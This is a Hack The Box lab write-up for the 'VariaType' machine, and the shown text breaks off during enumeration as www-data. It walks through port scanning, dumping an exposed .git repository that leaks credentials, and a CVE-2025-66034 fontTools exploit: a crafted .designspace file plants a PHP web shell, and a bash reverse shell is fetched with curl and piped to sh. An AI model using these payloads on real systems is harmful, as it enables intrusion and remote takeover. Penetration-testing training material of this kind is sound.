






## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
- [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host (VHOST) Discovery](#Virtual-Host-VHOST-Discovery)
- [portal.variatype.htb Enumeration](#portalvariatypehtb-Enumeration)
    - [Directory Busting](#Directory-Busting)
    - [Git Repository Enumeration](#Git-Repository-Enumeration)
- [Initial Access](#Initial-Access)
    - [CVE-2025-66034: fontTools varLib Path Traversal + XML Injection](#CVE-2025-66034-fontTools-varLib-Path-Traversal--XML-Injection)
- [Enumeration (www-data)](#Enumeration-www-data)
- [Privilege Escalation to steve](#Privilege-Escalation-to-steve)
    - [CVE-2024-25081: FontForge XML External Entity Injection (XXE)](#CVE-2024-25081-FontForge-XML-External-Entity-Injection-XXE)
- [user.txt](#usertxt)
- [Persistence](#Persistence)
- [Enumeration (steve)](#Enumeration-steve)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [CVE-2024-6345: setuptools PackageIndex Remote Code Execution (RCE) via malicious URL](#CVE-2024-6345-setuptools-PackageIndex-Remote-Code-Execution-RCE-via-malicious-URL)
- [root.txt](#roottxt)

## Summary

The box starts with `SSH` on port `22/TCP` and `HTTP` on port `80/TCP`. Port `80/TCP` is running a font generation service. Virtual host discovery reveals `portal.variatype.htb` to download generated fonts. Directory enumeration exposes a `.git` repository containing credentials for the `gitbot` user allowing access to the portal dashboard.

The service is vulnerable to `CVE-2025-66034` a `XML Injection` and `Path Traversal` vulnerability in `fontTools varLib`. Exploiting this vulnerability allows writing a web shell to the document root achieving code execution as `www-data` and getting `Initial Access`.

For `Privilege Escalation` to `steve` enumeration reveals an automated font processing script running as `steve` that uses `FontForge`. The script is vulnerable to `CVE-2024-25081` an `XML External Entity` (`XXE`) injection vulnerability. Exploiting this through malicious filenames in uploaded archives grants access as `steve` and retrieval of `user.txt`.

The `Privilege Escalation` to root requires `steve` to execute a plugin installer script with sudo privileges. The script uses `setuptools PackageIndex` which is vulnerable to `CVE-2024-6345` allowing `Arbitrary File Writes` through `URL Path Traversal`. Exploiting this vulnerability to write an `SSH` public key to `/root/.ssh/authorized_keys` grants root access and retrieval of `root.txt`.

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap` with service version detection. The scan revealed `SSH` and an `nginx` web server that redirected to `http://variatype.htb/`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.10.183
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-17 10:26 +0100
Nmap scan report for 10.129.10.183
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 e0:b2:eb:88:e3:6a:dd:4c:db:c1:38:65:46:b5:3a:1e (ECDSA)
|_  256 ee:d2:bb:81:4d:a2:8f:df:1c:50:bc:e1:0e:0a:d1:22 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://variatype.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
```

We added the hostname to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.10.183   variatype.htb
```

## Enumeration of Port 80/TCP

We accessed the web service and used `WhatWeb` to identify technologies in use.

- [http://variatype.htb/](http://variatype.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://variatype.htb/
http://variatype.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.22.1], IP[10.129.10.183], Title[VariaType Labs — Variable Font Generator], nginx[1.22.1]
```

The website displayed a variable font generator service.



The application allowed users to upload font files for processing.



### Virtual Host (VHOST) Discovery

Since the website used it's hostname and the web server redirected to it, we performed `Virtual Host` (`VHOST`) discovery using `ffuf` to identify additional subdomains.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.variatype.htb" -u http://variatype.htb/ --fs 169

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://variatype.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.variatype.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

portal                  [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 27ms]
:: Progress: [151265/151265] :: Job [1/1] :: 1503 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```

The discovered `portal` subdomain went directly to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.10.183   variatype.htb
10.129.10.183   portal.variatype.htb
```

## portal.variatype.htb Enumeration

Accessing the portal subdomain revealed a login page.

- [http://portal.variatype.htb/](http://portal.variatype.htb/)



### Directory Busting

Our next logical step was to perform directory enumeration using `Gobuster` to discover hidden paths and found a `Git` repository.

```shell
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://portal.variatype.htb/
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://portal.variatype.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
files                (Status: 301) [Size: 169] [--> http://portal.variatype.htb/files/]
.                    (Status: 200) [Size: 2494]
.git                 (Status: 301) [Size: 169] [--> http://portal.variatype.htb/.git/]
Progress: 38267 / 38267 (100.00%)
===============================================================
Finished
===============================================================
```

### Git Repository Enumeration

We used `git-dumper` to extract the exposed `Git` repository.

- [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

First we set up a virtual environment and installed the tool.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.12.final.0-64 in 884ms
  creator CPython3Posix(dest=/home/kali/opt/01_information_gathering/git-dumper/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.cache/virtualenv)
    added seed packages: pip==26.0.1
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ source venv/bin/activate
```

Then we ran `git-dumper` which helped us downloading the repository for investigation.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ python3 git_dumper.py http://portal.variatype.htb/ dump
[-] Testing http://portal.variatype.htb/.git/HEAD [200]
[-] Testing http://portal.variatype.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://portal.variatype.htb/.gitignore [404]
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/post-commit.sample [404]
[-] Fetching http://portal.variatype.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://portal.variatype.htb/.git/description [200]
[-] Fetching http://portal.variatype.htb/.git/COMMIT_EDITMSG [200]
[-] http://portal.variatype.htb/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/hooks/post-receive.sample [404]
[-] http://portal.variatype.htb/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/hooks/commit-msg.sample [200]
[-] http://portal.variatype.htb/.gitignore responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/update.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://portal.variatype.htb/.git/info/exclude [200]
[-] Fetching http://portal.variatype.htb/.git/objects/info/packs [404]
[-] http://portal.variatype.htb/.git/objects/info/packs responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://portal.variatype.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://portal.variatype.htb/.git/index [200]
[-] Finding refs/
[-] Fetching http://portal.variatype.htb/.git/info/refs [404]
[-] Fetching http://portal.variatype.htb/.git/logs/refs/heads/main [404]
[-] Fetching http://portal.variatype.htb/.git/logs/refs/heads/staging [404]
[-] Fetching http://portal.variatype.htb/.git/logs/refs/heads/production [404]
[-] http://portal.variatype.htb/.git/info/refs responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/logs/HEAD [200]
[-] Fetching http://portal.variatype.htb/.git/config [200]
[-] Fetching http://portal.variatype.htb/.git/ORIG_HEAD [200]
[-] Fetching http://portal.variatype.htb/.git/logs/refs/heads/master [200]
[-] http://portal.variatype.htb/.git/logs/refs/heads/main responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/HEAD [200]
[-] http://portal.variatype.htb/.git/logs/refs/heads/production responded with status code 404
[-] http://portal.variatype.htb/.git/logs/refs/heads/staging responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/FETCH_HEAD [404]
[-] http://portal.variatype.htb/.git/FETCH_HEAD responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/logs/refs/remotes/origin/HEAD [404]
[-] Fetching http://portal.variatype.htb/.git/logs/refs/heads/development [404]
[-] Fetching http://portal.variatype.htb/.git/logs/refs/remotes/origin/main [404]
[-] http://portal.variatype.htb/.git/logs/refs/heads/development responded with status code 404
[-] http://portal.variatype.htb/.git/logs/refs/remotes/origin/main responded with status code 404
[-] http://portal.variatype.htb/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/logs/refs/remotes/origin/production [404]
[-] http://portal.variatype.htb/.git/logs/refs/remotes/origin/production responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/logs/refs/remotes/origin/master [404]
[-] http://portal.variatype.htb/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/logs/refs/remotes/origin/staging [404]
[-] http://portal.variatype.htb/.git/logs/refs/remotes/origin/staging responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/logs/refs/stash [404]
[-] Fetching http://portal.variatype.htb/.git/packed-refs [404]
[-] http://portal.variatype.htb/.git/packed-refs responded with status code 404
[-] http://portal.variatype.htb/.git/logs/refs/stash responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/logs/refs/remotes/origin/development [404]
[-] http://portal.variatype.htb/.git/logs/refs/remotes/origin/development responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/heads/main [404]
[-] Fetching http://portal.variatype.htb/.git/refs/heads/production [404]
[-] Fetching http://portal.variatype.htb/.git/refs/heads/development [404]
[-] http://portal.variatype.htb/.git/refs/heads/development responded with status code 404
[-] http://portal.variatype.htb/.git/refs/heads/production responded with status code 404
[-] http://portal.variatype.htb/.git/refs/heads/main responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/heads/staging [404]
[-] Fetching http://portal.variatype.htb/.git/refs/heads/master [200]
[-] Fetching http://portal.variatype.htb/.git/refs/remotes/origin/HEAD [404]
[-] http://portal.variatype.htb/.git/refs/remotes/origin/HEAD responded with status code 404
[-] http://portal.variatype.htb/.git/refs/heads/staging responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/remotes/origin/main [404]
[-] http://portal.variatype.htb/.git/refs/remotes/origin/main responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/remotes/origin/master [404]
[-] http://portal.variatype.htb/.git/refs/remotes/origin/master responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/remotes/origin/staging [404]
[-] http://portal.variatype.htb/.git/refs/remotes/origin/staging responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/remotes/origin/production [404]
[-] http://portal.variatype.htb/.git/refs/remotes/origin/production responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/remotes/origin/development [404]
[-] Fetching http://portal.variatype.htb/.git/refs/stash [404]
[-] http://portal.variatype.htb/.git/refs/stash responded with status code 404
[-] http://portal.variatype.htb/.git/refs/remotes/origin/development responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/master [404]
[-] http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/staging [404]
[-] Fetching http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/main [404]
[-] http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/staging responded with status code 404
[-] http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/main responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/production [404]
[-] Fetching http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/development [404]
[-] http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/development responded with status code 404
[-] http://portal.variatype.htb/.git/refs/wip/wtree/refs/heads/production responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/wip/index/refs/heads/main [404]
[-] http://portal.variatype.htb/.git/refs/wip/index/refs/heads/main responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/wip/index/refs/heads/master [404]
[-] Fetching http://portal.variatype.htb/.git/refs/wip/index/refs/heads/staging [404]
[-] Fetching http://portal.variatype.htb/.git/refs/wip/index/refs/heads/production [404]
[-] http://portal.variatype.htb/.git/refs/wip/index/refs/heads/staging responded with status code 404
[-] http://portal.variatype.htb/.git/refs/wip/index/refs/heads/production responded with status code 404
[-] http://portal.variatype.htb/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/refs/wip/index/refs/heads/development [404]
[-] http://portal.variatype.htb/.git/refs/wip/index/refs/heads/development responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://portal.variatype.htb/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] http://portal.variatype.htb/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching http://portal.variatype.htb/.git/objects/50/30e791b764cb2a50fcb3e2279fea9737444870 [200]
[-] Fetching http://portal.variatype.htb/.git/objects/6f/021da6be7086f2595befaa025a83d1de99478b [200]
[-] Fetching http://portal.variatype.htb/.git/objects/61/5e621dce970c2c1c16d2a1e26c12658e3669b3 [200]
[-] Fetching http://portal.variatype.htb/.git/objects/75/3b5f5957f2020480a19bf29a0ebc80267a4a3d [200]
[-] Fetching http://portal.variatype.htb/.git/objects/03/0e929d424a937e9bd079794a7e1aaf366bcfaf [200]
[-] Fetching http://portal.variatype.htb/.git/objects/c6/ea13ef05d96cf3f35f62f87df24ade29d1d6b4 [200]
[-] Fetching http://portal.variatype.htb/.git/objects/b3/28305f0e85c2b97a7e2a94978ae20f16db75e8 [200]
[-] Running git checkout .
```

Now we examined the extracted repository contents.

```shell
┌──(kali㉿kali)-[/media/…/Machines/VariaType/files/dump]
└─$ ls -lah
total 4.0K
drwxrwx--- 1 root vboxsf  24 Mar 17 10:55 .
drwxrwx--- 1 root vboxsf   8 Mar 17 10:58 ..
-rwxrwx--- 1 root vboxsf  36 Mar 17 10:55 auth.php
drwxrwx--- 1 root vboxsf 146 Mar 17 10:55 .git
```

We checked the `Git` configuration for any useful information. The config revealed a potential username.

```shell
┌──(kali㉿kali)-[/media/…/VariaType/files/dump/.git]
└─$ cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Dev Team
        email = dev@variatype.htb
```

| Username |
| -------- |
| dev      |

Then we configured `Git` to mark the directory as safe and then examined the commit history.

```shell
┌──(kali㉿kali)-[/media/…/Machines/VariaType/files/dump]
└─$ git config --global --add safe.directory /media/sf_cybersecurity/notes/HTB/Machines/VariaType/files/dump
```

The commit message mentioned a `gitbot` user for automated validation. We checked what changed in the most recent commit.

```shell
┌──(kali㉿kali)-[/media/…/Machines/VariaType/files/dump]
└─$ git log
commit 753b5f5957f2020480a19bf29a0ebc80267a4a3d (HEAD -> master)
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:59:33 2025 -0500

    fix: add gitbot user for automated validation pipeline

commit 5030e791b764cb2a50fcb3e2279fea9737444870
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:57:57 2025 -0500

    feat: initial portal implementation
```

The diff revealed hardcoded credentials that were later removed.

```shell
┌──(kali㉿kali)-[/media/…/Machines/VariaType/files/dump]
└─$ git diff 753b5f5957f2020480a19bf29a0ebc80267a4a3d
diff --git a/auth.php b/auth.php
old mode 100644
new mode 100755
index b328305..615e621
--- a/auth.php
+++ b/auth.php
@@ -1,5 +1,3 @@
 <?php
 session_start();
-$USERS = [
-    'gitbot' => 'G1tB0t_Acc3ss_2025!'
-];
+$USERS = [];
```

| Username | Password            |
| -------- | ------------------- |
| gitbot   | G1tB0t_Acc3ss_2025! |

We authenticated to the portal using the discovered credentials.



The credentials worked and we gained access to the portal dashboard.



## Initial Access

### CVE-2025-66034: fontTools varLib Path Traversal + XML Injection

Research revealed that the font processing functionality was vulnerable to `CVE-2025-66034` a `XML Injection` and `Path Traversal` vulnerability in `fontTools varLib`. 

- [https://github.com/advisories/GHSA-768j-98cg-p3fv](https://github.com/advisories/GHSA-768j-98cg-p3fv)

First we created source font files using the `fontTools` library by executing the `Proof of Concept` (`PoC`) exploit.

**poc.py**

```python
#!/usr/bin/env python3
import os

from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def create_source_font(filename, weight=400):
    fb = FontBuilder(unitsPerEm=1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})
    
    pen = TTGlyphPen(None)
    pen.moveTo((0, 0))
    pen.lineTo((500, 0))
    pen.lineTo((500, 500))
    pen.lineTo((0, 500))
    pen.closePath()
    
    fb.setupGlyf({".notdef": pen.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName": "Test", "styleName": f"Weight{weight}"})
    fb.save(filename)

if __name__ == '__main__':
    os.chdir(os.path.dirname(os.path.abspath(__file__)))
    create_source_font("source-light.ttf", weight=100)
    create_source_font("source-regular.ttf", weight=400)
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/files]
└─$ python3 poc.py
```

This generated our source font files.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/files]
└─$ ls -lah
total 12K
drwxrwx--- 1 root vboxsf  88 Mar 17 11:02 .
drwxrwx--- 1 root vboxsf  46 Mar 17 10:23 ..
drwxrwx--- 1 root vboxsf  16 Mar 17 11:02 dump
-rwxrwx--- 1 root vboxsf 953 Mar 17 11:02 poc.py
-rwxrwx--- 1 root vboxsf 600 Mar 17 11:02 source-light.ttf
-rwxrwx--- 1 root vboxsf 600 Mar 17 11:02 source-regular.ttf
```

Next we created a malicious `.designspace` file that exploits both the `XML Injection` and `Path Traversal` vulnerability.

**malicious.designspace**

```xml
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
    <axes>
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en"><![CDATA[<?php system($_GET['cmd']); ?>]]]]><![CDATA[>]]></labelname>
            <labelname xml:lang="fr">foobar</labelname>
        </axis>
    </axes>
    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
    <sources>
        <source filename="source-light.ttf" name="Light">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
        </source>
        <source filename="source-regular.ttf" name="Regular">
            <location>
                <dimension name="Weight" xvalue="400"/>
            </location>
        </source>
    </sources>
    <variable-fonts>
        <variable-font name="MyFont" filename="../../../../../../../var/www/portal.variatype.htb/public/files/shell.php">
            <axis-subsets>
                <axis-subset name="Weight"/>
            </axis-subsets>
        </variable-font>
    </variable-fonts>
    <instances>
        <instance name="Display Thin" familyname="MyFont" stylename="Thin">
            <location><dimension name="Weight" xvalue="100"/></location>
            <labelname xml:lang="en">Display Thin</labelname>
        </instance>
    </instances>
</designspace>
```

The `.designspace` file uses path traversal in the `filename` attribute to write outside the intended directory and injects `PHP` code via `CDATA` sections in the `labelname` element. We prepared a reverse shell script on our attack machine.

```shell 
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.10/9001 0>&1'
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We uploaded both `.ttf` files along with the malicious `.designspace` file through the portal.


The upload processed successfully and our web shell was written to the files directory.



The web shell got triggered  to download and execute our reverse shell payload by accessing the following `URL`.

```shell
http://portal.variatype.htb/files/shell.php?cmd=curl%2010.10.16.10/x|sh
```

The payload executed successfully granting us a shell as `www-data`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.10.183] 54780
bash: cannot set terminal process group (3372): Inappropriate ioctl for device
bash: no job control in this shell
www-data@variatype:~/portal.variatype.htb/public/files$ 
```

## Enumeration (www-data)

With access as `www-data` we began our standard enumeration routine.

```shell
www-data@variatype:~/portal.variatype.htb/public/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We checked for other users on the system and found another potentially relevant user called `steve`.

```shell
www-data@variatype:~/portal.variatype.htb/public/files$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
